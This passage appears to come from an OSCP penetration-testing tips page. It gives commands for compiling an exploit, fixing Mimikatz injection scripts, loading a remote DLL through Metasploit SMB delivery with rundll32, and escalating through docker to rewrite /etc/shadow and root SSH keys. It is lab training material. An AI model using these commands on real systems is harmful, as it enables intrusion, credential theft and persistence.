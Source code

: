 Compile:

```
i686-w64-mingw32-g++-win32 44479.cpp -lgdi32 -lopengl32 -o lol.exe -static
```

### 15. Getting an error while running Invoke-Mimikatz.ps1 and Invoke-ReflectivePEInjection.ps1?

> Exception calling “GetMethod” with “1” argument(s): “Ambiguous match found.”

Replace this:

```
$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress')
```

With:

```
$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);
```

### 16. Exploiting an old timer with no modern way of downloading files? Use SMB Delivery!

```
msfconsole
use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost IP //your LHOST
msf exploit(windows/smb/smb_delivery) > exploit
# locally:
rundll32.exe \\IP\vabFG\test.dll,0
```

![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/grandpa.jpg)

I guess you _could_ use [bitsadmin](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)too.

### 17. Got docker suid or sudo?

```
docker run -v /:/mnt -it ubuntu
```

Once the file system is mounted, you can read and write /etc/passwd and /etc/shadow. You can also add your public ssh key in /root/.ssh/authorized_keys.

### 18. Want to check which services you can start?

```cmd
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula
```
